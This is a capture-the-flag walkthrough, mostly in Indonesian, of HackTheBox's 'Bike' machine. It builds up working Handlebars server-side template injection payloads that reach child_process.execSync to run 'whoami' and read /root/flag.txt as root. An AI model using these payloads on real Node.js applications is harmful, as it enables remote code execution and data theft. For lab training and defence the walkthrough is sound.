

In this walkthrough, we will explore the HackTheBox Starting Point machine named "Bike". The primary focus will be on exploiting a NodeJS web application that is vulnerable to Server Side Template Injection (SSTI) to achieve Remote Code Execution (RCE). We will cover the steps of reconnaissance, identifying the SSTI vulnerability, exploiting it to gain RCE, and finally retrieving the flag.

## Reconnaissance

Seperti biasa, hal yang pertama yang harus kita lakukan adalah melakukan port scanning terhadap open port dan running services dengan menggunakan tools nmap

```bash
└─$ sudo nmap -sV -sC -p- --min-rate=1000 -T4 10.129.9.234        
[sudo] password for w1thre: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-11 22:43 WIB
Nmap scan report for 10.129.9.234
Host is up (0.27s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    Node.js (Express middleware)
|_http-title:  Bike 
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 103.78 seconds
```

### Analyze Scan Result

- Port 22 menjalankan service ssh dengan versi OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
- Port 80 menjalankan service http node.js menggunakan Express

Ketika kita buka website nya kita coba melakukan SSTI (Server Side Template Injection) dengan menggunakan payload `{{7*7}}`.



Dan kita mendapatkan error yang memberikan kita informasi bahwa, template engine yang digunakan adalah Handlebars


Disini kita bisa menggunakan burpsuite untuk melakukan request payload ke server seperti berikut.

```bash
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```


Disini terdapat error "require is not defined". Ini kemungkinan besar terjadi karena payload kita mencoba menggunakan keyword 'require' yang merupakan fungsi khusus di Javascript dan Node.js yang digunakan untuk memuat kode dari modul atau file lain. Kode di atas mencoba untuk memuat modul Child Process ke dalam memori dan menggunakannya untuk mengeksekusi perintah sistem (dalam hal ini 'whoami'). Template Engine biasanya di-sandbox, yang berarti kode mereka berjalan dalam ruang kode yang dibatasi sehingga jika ada kode berbahaya yang dijalankan, akan sangat sulit untuk memuat modul yang dapat menjalankan perintah sistem. Karena kita tidak bisa langsung menggunakan 'require' untuk memuat modul tersebut, kita perlu mencari cara lain.

```bash
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 1345
ETag: W/"541-sEbhFszxoOHrx2pYd8n5qxybwvM"
Date: Tue, 11 Feb 2025 16:17:16 GMT
Connection: keep-alive

["ReferenceError: require is not defined","    at Function.eval (eval at <anonymous> (eval at createFunctionContext (/root/Backend/node_modules/handlebars/dist/cjs/handlebars/compiler/javascript-compiler.js:254:23)), <anonymous>:3:1)","    at Function.<anonymous> (/root/Backend/node_modules/handlebars/dist/cjs/handlebars/helpers/with.js:10:25)","    at eval (eval at createFunctionContext (/root/Backend/node_modules/handlebars/dist/cjs/handlebars/compiler/javascript-compiler.js:254:23), <anonymous>:5:37)","    at prog (/root/Backend/node_modules/handlebars/dist/cjs/handlebars/runtime.js:221:12)","    at execIteration (/root/Backend/node_modules/handlebars/dist/cjs/handlebars/helpers/each.js:51:19)","    at Array.<anonymous> (/root/Backend/node_modules/handlebars/dist/cjs/handlebars/helpers/each.js:61:13)","    at eval (eval at createFunctionContext (/root/Backend/node_modules/handlebars/dist/cjs/handlebars/compiler/javascript-compiler.js:254:23), <anonymous>:12:31)","    at prog (/root/Backend/node_modules/handlebars/dist/cjs/handlebars/runtime.js:221:12)","    at Array.<anonymous> (/root/Backend/node_modules/handlebars/dist/cjs/handlebars/helpers/with.js:22:14)","    at eval (eval at createFunctionContext (/root/Backend/node_modules/handlebars/dist/cjs/handlebars/compiler/javascript-compiler.js:254:23), <anonymous>:12:34)"]
```

Disini kita bisa menggunakan object process untuk memuat module

```bash
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process;"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

```bash
      We will contact you at:       e
      2
      [object Object]
      function Function() { [native code] }
      2
      [object Object]
      [object process]
```

Payload tidak memberikan response error, maka dari itu kita coba panggil mainModule

```bash
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule;"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

```bash
        We will contact you at:       e
      2
      [object Object]
        function Function() { [native code] }
        2
        [object Object]
            [object Object]
```

Tidak ada error juga, sekarang kita bisa panggil require nya kembali dan memuat module child_process

```bash
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}

```

```bash
       We will contact you at:       e
      2
      [object Object]
        function Function() { [native code] }
        2
        [object Object]
            [object Object]
```

Sekarang kita coba untuk menambahkan system command.

```bash
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process').execSync('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

```bash
        We will contact you at:       e
      2
      [object Object]
        function Function() { [native code] }
        2
        [object Object]
            root
```

Payload berhasil memberikan response root. Disini kita langsung ambil saja flag nya.

```bash
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process').execSync('cat /root/flag.txt');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

## Flag


```bash
6b258d726d287462d60c103d0142a81c
```

## Useful Links

[https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/index.html#handlebars-nodejs](https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/index.html#handlebars-nodejs)

[https://nodejs.org/api/globals.html](https://nodejs.org/api/globals.html)

[https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects)